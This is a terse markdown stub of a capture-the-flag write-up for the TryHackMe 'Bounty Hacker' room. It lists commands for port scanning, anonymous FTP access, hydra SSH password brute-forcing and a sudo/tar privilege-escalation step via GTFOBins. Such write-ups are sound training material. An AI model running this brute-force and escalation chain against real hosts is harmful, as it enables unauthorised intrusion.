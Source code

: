 ```yaml
---
date: 2024-06-19
author: mrashco
title: Bounty Hacker
tags: 
categories: 
series: 
---
```


Writeup: [YouTube](https://youtu.be/RIiRB_tqfVk) // Blog

---

rustscan -a $ip -p $ports -- -sC -sV

ftp -A $ip [^](https://tryhackme.com/forum/thread/61d36f77eb3bbf056a906e3f)

hydra -l $user -P l****.txt $ip ssh

sudo -l, tar [^](https://gtfobins.github.io/gtfobins/tar/)